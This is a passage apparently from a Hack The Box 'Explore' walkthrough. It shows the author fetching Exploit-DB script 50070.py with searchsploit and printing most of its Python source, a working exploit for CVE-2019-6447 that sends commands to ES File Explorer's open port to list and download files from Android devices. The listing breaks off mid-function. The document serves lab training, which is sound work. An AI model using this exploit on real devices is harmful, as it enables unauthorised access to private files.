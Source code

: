 Let's grab it and have a look:

```text
root@kali:~/htb/explore# searchsploit -m 50070.py                              
  Exploit: ES File Explorer 4.1.9.7.4 - Arbitrary File Read
      URL: https://www.exploit-db.com/exploits/50070
     Path: /usr/share/exploitdb/exploits/android/remote/50070.py
File Type: Python script, ASCII text executable
Copied to: /root/htb/explore/50070.py
```

```python
root@kali:~/htb/explore# more 50070.py         
# Exploit Title: ES File Explorer 4.1.9.7.4 - Arbitrary File Read
# Date: 29/06/2021
# Exploit Author: Nehal Zaman
# Version: ES File Explorer v4.1.9.7.4
# Tested on: Android
# CVE : CVE-2019-6447

import requests
import json
import ast
import sys

if len(sys.argv) < 3:
    print(f"USAGE {sys.argv[0]} <command> <IP> [file to download]")
    sys.exit(1)

url = 'http://' + sys.argv[2] + ':59777'
cmd = sys.argv[1]
cmds = ['listFiles','listPics','listVideos','listAudios','listApps','listAppsSystem','listAppsPhone','listAppsSdcard','listAppsAll','getFile','getDeviceInfo']
listCmds = cmds[:9]
if cmd not in cmds:
    print("[-] WRONG COMMAND!")
    print("Available commands : ")
    print("  listFiles         : List all Files.")
    print("  listPics          : List all Pictures.")
    print("  listVideos        : List all videos.")
    print("  listAudios        : List all audios.")
    print("  listApps          : List Applications installed.")
    print("  listAppsSystem    : List System apps.")
    print("  listAppsPhone     : List Communication related apps.")
    print("  listAppsSdcard    : List apps on the SDCard.")
    print("  listAppsAll       : List all Application.")
    print("  getFile           : Download a file.")
    print("  getDeviceInfo     : Get device info.")
    sys.exit(1)

print("\n==================================================================")
print("|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |")
print("|                Coded By : Nehal a.k.a PwnerSec                 |")
print("==================================================================\n")

header = {"Content-Type" : "application/json"}
proxy = {"http":"http://127.0.0.1:8080", "https":"https://127.0.0.1:8080"}

def httpPost(cmd):
    data = json.dumps({"command":cmd})
    response = requests.post(url, headers=header, data=data)
    return ast.literal_eval(response.text)

def parse(text, keys):
    for dic in text:
```